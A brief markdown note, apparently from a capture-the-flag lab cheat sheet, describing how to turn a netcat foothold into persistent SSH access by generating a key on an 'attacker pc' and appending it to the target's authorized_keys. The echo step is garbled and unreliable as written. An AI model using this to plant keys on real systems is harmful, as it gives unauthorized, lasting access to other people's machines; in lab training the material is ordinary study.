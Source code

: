 # Switch from netcat to ssh

<h2>1. step: Attacker pc:</h2>

```
$ ssh-keygen -t rsa -b 4096 -f thm_id_rsa -N ''
$ cat thm_id_rsa.pub
```


<h2>2. step: Target pc:</h2>

```
user@hostname:~$ mkdir -p ~/.ssh
user@hostname:~$ echo "
echo "
> KEY " >> ~/.ssh/authorized_keys
user@hostname:~$ chmod 700 ~/.ssh
user@hostname:~$ chmod 600 ~/.ssh/authorized_keys
```

<h2>3. step: Attacker pc </h2>

```
$ ssh -i thm_id_rsa user@ip
```

